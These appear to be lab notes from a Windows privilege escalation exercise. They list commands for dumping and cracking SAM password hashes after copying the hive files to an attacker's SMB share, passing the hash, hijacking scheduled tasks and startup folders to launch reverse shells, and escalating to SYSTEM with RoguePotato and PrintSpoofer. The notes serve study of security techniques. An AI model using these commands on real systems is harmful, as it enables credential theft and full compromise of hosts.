 Passwords - Saved Creds

1. `cmdkey /list` --> List any saved creds
2. `runas /savecred /user:admin C:\PrivEsc\reverse.exe`

Passwords - Security Account Manager

1. `copy C:\Windows\Repair\SAM \\10.11.67.208\kali\` --> Transfer the SAM and SYSTEM files to kali thru SMB 
2. `copy C:\Windows\Repair\SYSTEM \\10.11.67.208\kali\` 
3. On kali: `git clone https://github.com/Tib3rius/creddump7;pip3 install pycryptodome`
4. On kali: `python3 creddump7/pwdump.py SYSTEM SAM`
	1. `admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::` --> First hash is LM hash followed by NTLM hash!
5. On kali: `hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

Passwords - Passing the Hash

`pth-winexe -U 'admin%hash' //10.10.202.204 cmd.exe` --> pass in the full admin hash (includes both LM and NTLM hash, separated by colon)

Scheduled Tasks

1. `type C:\DevTools\CleanUp.ps1` 
2. `C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`
3. `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`

Insecure GUI Apps

1. `rdesktop -u user -p password321 10.10.201.218` --> login to user account
2. Double-click `AdminPaint` shortcut on Desktop
3. `tasklist /V | findstr mspaint.exe` --> paint is running with admin privileges
4. In Paint, `File` --> `Open`. ` file://c:/windows/system32/cmd.exe`

Startup Apps

1. `C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"` --> BUILTIN\\Users group can write files to the StartUp directory
2. `cscript C:\PrivEsc\CreateShortcut.vbs` -->  create a new shortcut to your reverse.exe executable in the StartUp directory
3. `rdesktop -u admin 10.10.201.218` --> login as admin to simulate an admin login
4. Able to obtain reverse shell

Token Impersonation - [Rogue Potato](https://github.com/antonioCoco/RoguePotato) (Requires SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege)

1. `sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.13.83:9999` --> Forwards Kali port 135 to port 9999 on Windows.
2. `C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`  --> this step is purely to simulate getting a service account shell 
3. `C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse2.exe" -l 999` --> Second reverse shell should have SYSTEM privileges.

Token Impersonation - [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) (From Local/NETWORK SERVICE to system by abusing SeImpersonatePrivilege)

1. `C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe` --> this step is purely to simulate getting a service account shell 
2. `C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`
